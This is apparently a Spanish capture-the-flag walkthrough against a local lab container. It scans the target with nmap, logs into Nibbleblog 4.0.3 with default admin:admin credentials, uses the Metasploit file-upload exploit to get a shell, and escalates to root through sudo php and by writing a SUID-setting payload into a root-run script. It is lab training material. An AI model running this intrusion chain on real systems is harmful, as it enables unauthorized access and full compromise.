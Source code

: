 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250206171518.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250206171636.png]]

Nos metemos en la web:

![[Pasted image 20250206172221.png]]

![[Pasted image 20250206172242.png]]

![[Pasted image 20250206172317.png]]

Probamos admin: admin:

![[Pasted image 20250206172346.png]]

![[Pasted image 20250206173029.png]]

Versión nibblelog 4.0.3.

Buscamos si existe exploit:

```Bash
searchsploit nibbleblog
```

![[Pasted image 20250206173405.png]]

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search nibblelog
```

![[Pasted image 20250206173800.png]]

```
use exploit/multi/http/nibbleblog_file_upload
```

![[Pasted image 20250206173811.png]]

```
show options
```

![[Pasted image 20250207085944.png]]

```
set RHOSTS 172.17.0.2
```

![[Pasted image 20250206173926.png]]

```
set USERNAME admin
```

![[Pasted image 20250206173942.png]]

```
set PASSWORD admin
```

![[Pasted image 20250206173954.png]]

```
set TARGETURI /nibbleblog/
```

![[Pasted image 20250206174002.png]]

```
show options
```

![[Pasted image 20250206173733.png]]

```
exploit
```

![[Pasted image 20250206174049.png]]

```
getuid
```

![[Pasted image 20250206174103.png]]

```
shell
```

![[Pasted image 20250206174136.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206174205.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206174226.png]]

```Bash
CMD="/bin/bash"
```

![[Pasted image 20250206174420.png]]

```Bash
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

![[Pasted image 20250206174434.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206174514.png]]

```Bash
whoami
```

![[Pasted image 20250206174536.png]]

Miramos procesos:

```Bash
ps aux
```

![[Pasted image 20250206175224.png]]

Elevamos privilegios de nuevo:

```Bash
cd /opt
```

![[Pasted image 20250206174831.png]]

```Bash
ls
```

![[Pasted image 20250206174850.png]]

```Bash
cat script.php
```

![[Pasted image 20250206174945.png]]

```Bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

![[Pasted image 20250206175324.png]]

```Bash
ls -l /bin/bash
```

![[Pasted image 20250206175514.png]]

```Bash
bash -p
```

![[Pasted image 20250206175528.png]]

```Bash
whoami
```

![[Pasted image 20250206175651.png]]

